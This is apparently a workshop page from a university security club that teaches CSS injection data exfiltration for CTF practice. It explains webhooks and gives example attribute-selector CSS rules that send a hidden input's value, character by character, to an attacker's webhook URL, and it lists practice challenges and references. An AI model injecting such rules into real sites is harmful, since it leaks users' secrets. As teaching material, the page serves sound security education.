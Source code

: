 # Web 1: CSS Exfiltration Attack

### What is a CSS Exfiltration Attack?

A CSS Exfiltration Attack occurs when an attacker is able to inject CSS into a web page. While some elements on a page may be restricted from direct access, cleverly crafted CSS can be used to extract sensitive data. This is possible because certain CSS selectors and functions can indirectly leak information by triggering observable behaviors, such as generating HTTP requests. In some cases, CSS injection may also lead to JavaScript execution. Today, we are specifically focusing on the data exfiltration aspect of such attacks.

### What is a Webhook?

A Webhook is a mechanism that allows data to be sent to a unique URL when certain events occur. One way to explore this is by visiting webhook.site, a service that provides you with your own unique URL. This URL is private to you, and any visits to it are logged by the site. You can also send information along with each visit, making it a useful tool for testing and debugging webhooks. You can customize the path as well, such as using `webhook/whatever_you_want`, to organize or identify different events.

### How to perform a CSS Exfiltration Attack?
To perform a CSS Exfiltration Attack, tools like Style-Stealer assume that a secret is stored in an element such as `<input value="secret">`. The idea is to inject a CSS rule like `[value="a"] { background: url(webhook/a); }`, which targets an HTML element with a value attribute equal to "a". If such an element exists, the browser will attempt to load a background image from `webhook/a`, effectively making a request to your webhook URL. Although there's no actual image, the request itself logs the data access. Make sure to replace `"webhook"` with your own unique webhook URL from a site like webhook.site.

To expand this attack, rather than guessing exact values, you can use partial attribute selectors. For example, `[value^="a"]` targets elements whose `value` starts with "a", while `[value$="a"]` matches those that end with "a". These allow broader probing of values without brute-forcing every possibility. For convenience and scale, it’s recommended to write a Python script to automatically generate these CSS rules.

## Challenges

The following challenges in increasing difficulty are deployed to [platform.acmcyber.com](https://platform.acmcyber.com) to practice the concepts covered.

- `style-stealer-1`
- `style-stealer-2`
- `style-stealer-3`
- `style-stealer-4`
- `style-stealer-5`
- `style-stealer-6`
- `style-stealer-100`

## Resources

The following resources are great to practice/learn about the ciphers covered in the slides.

- [Webhook](http://webhook.site)
- [CSS Attribute Selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [Blind CSS Data Exfiltration](https://medium.com/@angryovalegg/blind-css-data-exfiltration-8dd6614236b2)
- [Testing for CSS Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection)


